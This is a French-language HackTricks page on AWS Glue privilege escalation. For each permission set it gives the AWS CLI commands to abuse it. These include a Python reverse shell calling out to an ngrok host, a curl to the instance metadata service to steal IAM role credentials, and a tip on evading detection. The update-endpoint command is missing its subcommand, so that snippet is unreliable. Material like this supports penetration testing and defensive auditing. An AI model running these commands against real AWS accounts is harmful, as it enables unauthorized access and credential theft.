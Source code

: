# AWS - Élévation de privilèges Glue

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert de l'équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Les utilisateurs avec ces autorisations peuvent **configurer un nouveau point de développement AWS Glue**, **assignant un rôle de service existant** avec des autorisations spécifiques à ce point de terminaison.

Après la configuration, **l'attaquant peut se connecter en SSH à l'instance du point de terminaison**, et voler les informations d'identification IAM du rôle assigné :
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Dans un souci de discrétion, il est recommandé d'utiliser les informations d'identification IAM depuis l'intérieur de la machine virtuelle Glue.

**Impact potentiel :** Élévation des privilèges vers le rôle de service Glue spécifié.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Les utilisateurs ayant cette autorisation peuvent **modifier un point de terminaison de développement Glue** existant pour y ajouter une clé SSH, **permettant l'accès SSH**. Cela permet à l'attaquant d'exécuter des commandes avec les privilèges du rôle attaché au point de terminaison :
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Impact potentiel :** Élévation de privilèges vers le rôle de service Glue utilisé.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Les utilisateurs avec **`iam:PassRole`** combiné avec soit **`glue:CreateJob` ou `glue:UpdateJob`**, et soit **`glue:StartJobRun` ou `glue:CreateTrigger`** peuvent **créer ou mettre à jour un travail AWS Glue**, en attachant n'importe quel **compte de service Glue**, et lancer l'exécution du travail. Les capacités du travail incluent l'exécution de code Python arbitraire, qui peut être exploité pour établir un shell inversé. Ce shell inversé peut ensuite être utilisé pour exfiltrer les **informations d'identification IAM** du rôle attaché au travail Glue, entraînant un accès ou des actions non autorisés potentiels en fonction des autorisations de ce rôle :
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Impact potentiel :** Privesc vers le rôle de service Glue spécifié.

### `glue:UpdateJob`

Rien qu'avec l'autorisation de mise à jour, un attaquant pourrait voler les informations d'identification IAM du rôle déjà attaché.

**Impact potentiel :** Privesc vers le rôle de service Glue attaché.

## Références

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
